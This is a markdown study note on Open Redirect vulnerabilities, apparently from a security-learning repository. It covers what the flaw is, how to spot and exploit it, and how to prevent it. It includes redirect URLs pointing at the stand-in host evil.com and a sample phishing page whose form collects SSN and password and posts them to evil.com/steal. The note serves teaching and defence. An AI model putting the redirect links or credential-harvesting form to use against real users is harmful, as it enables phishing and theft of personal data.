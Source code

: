 # 10.open-redirect

14/05/25

## Recall

- What is an Open Redirect vulnerability?
- Why can Open Redirect be dangerous even though it doesn’t directly compromise a system?
- How can Open Redirect be used in phishing or session hijacking?
- What are typical signs or patterns of an Open Redirect?
- How can developers prevent Open Redirects?

## Notes

### What it is

**Open Redirect** is a vulnerability that occurs when an application redirects a user to a URL specified via a parameter, without properly validating or restricting that URL. This allows an attacker to manipulate the destination and redirect victims to malicious websites.

Although Open Redirects are often overlooked, since redirects are commonly used for user experience, they can be dangerous when combined with social engineering. An attacker can use them to trick users into visiting **malicious pages**, **phishing portals**, or **token-hijacking scripts**.

### How to identify it

To identify an Open Redirect, look for any parameter that controls redirection:

```html
<a href="https://mycompany.com.br?page=https://evil.com/fakebank">Saiba mais</a>
```

If modifying the page parameter results in a redirection to an arbitrary domain, then the vulnerability is present. A working exploit might look like:

```html
<a href="https://mycompany.com.br?page=https://evil.com/fakebank">About</a>
```

Try replacing the value with a domain you control and see if the application performs the redirection.

### How to exploit it

Exploitation is straightforward: the attacker convinces the user to click on a seemingly legitimate link (starting with the trusted domain), which then redirects to a malicious site.

Example attack flow:

```bash
https://mycompany.com.br?page=https://evil.com/fakebank
```

Gets redirect to:

```html
https://evil.com/fakebank
```

Phishing ****page:

```html
<!-- https://evil.com/fakebank -->

<html>
  <body style="background:#f5f5f5; font-family:sans-serif">
    <h2>Example Bank</h2>
    <p>Please confirm your details</p>
    <form action="https://evil.com/steal" method="POST">
      <label>SSN</label><br>
      <input type="text" name="ssn"><br>
      <label>Password:</label><br>
      <input type="password" name="password"><br><br>
      <input type="submit" value="confirm">
    </form>
  </body>
</html>
```

## Summary

Open Redirect vulnerabilities allow an attacker to redirect users to arbitrary websites via unvalidated parameters. While they may seem harmless, they are frequently used in phishing attacks, session hijacking, or chaining with other vulnerabilities like XSS or token leakage. Exploiting Open Redirects typically requires social engineering, but when successful, they can lead to serious consequences such as credential theft or session compromise. To prevent them, always validate redirect destinations using a whitelist, reject full external URLs in parameters, or resolve redirect targets internally by ID instead of raw links.